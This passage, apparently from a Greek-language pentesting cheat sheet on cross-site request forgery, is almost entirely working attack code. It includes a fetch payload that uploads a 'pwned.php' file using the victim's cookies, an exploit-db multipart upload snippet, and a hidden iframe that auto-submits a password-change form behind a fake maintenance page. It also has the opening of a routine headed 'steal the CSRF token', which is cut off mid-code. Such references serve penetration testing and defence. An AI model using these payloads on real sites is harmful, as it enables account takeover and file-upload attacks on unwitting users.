 ```javascript
myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
method: "post",
body: myFormData,
credentials: "include",
headers: {"Content-Type": "application/x-www-form-urlencoded"},
mode: "no-cors"
});
```
### multipart/form-data POST request v2
```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```
### Αίτημα POST φόρμας από μέσα σε ένα iframe
```html
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
### **Κλέψε το CSRF Token και στείλε ένα POST αίτημα**
```javascript
function submitFormWithTokenJS(token) {
var xhr = new XMLHttpRequest();
xhr.open("POST", POST_URL, true);
xhr.withCredentials = true;

// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

// This is for debugging and can be removed
xhr.onreadystatechange = function() {
if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
```